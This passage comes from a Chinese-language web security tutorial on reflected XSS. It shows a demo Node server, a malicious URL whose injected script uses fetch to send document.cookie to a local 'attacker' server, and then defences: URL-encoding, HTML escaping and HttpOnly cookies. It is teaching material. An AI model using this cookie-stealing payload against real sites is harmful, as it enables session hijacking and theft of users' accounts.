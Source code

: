 ```js

function onRequest(req, res) {
  const { url, method } = req;
  const { query, pathname } = URL.parse(url, true); // 解析 url
  Object.assign(req, { query, path: pathname }); // 并把 query 和 pathname 参数扩展到 req 对象
  const route = routes[[method, pathname].join(" ")]; // 获取路由处理函数（策略模式）
  if (route) return route(req, res);
  res.statusCode = 404;
  res.end("Not Found");
}

http.createServer(onRequest).listen(3000); // 被攻击的网站
http.createServer(onRequest).listen(4000); // 攻击者收集cookie的服务器
```

运行上面的代码，然后打开访问下面的恶意链接：

```js
http://localhost:3000/movies?q=功夫熊猫<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 被发送到了攻击者的服务器。

### 防御方案

造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，例如直接用 encodeURIComponent 对查询参数进行过滤：

```js
const tpl = req.query.q
  ? `<h3>「${encodeURIComponent(req.query.q)}」的搜索结果为：</h3>${Array(
      30
    ).fill("x")}`
  : `请输入搜索的电影`;
```

还有一种方式是写一个函数替换掉那些 <、& 等特殊字符：

```js
function encodeHTML(str) {
  return str
    .replace(/&/g, "&amp;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&apos;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;");
}
```

另外，如果后端登录验证是基于 Cookie 的话，一定要设置其属性为 HttpOnly，这样攻击者无法利用 JS 脚本获取到 Cookie 了。

## 存储型 XSS 攻防实战

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。
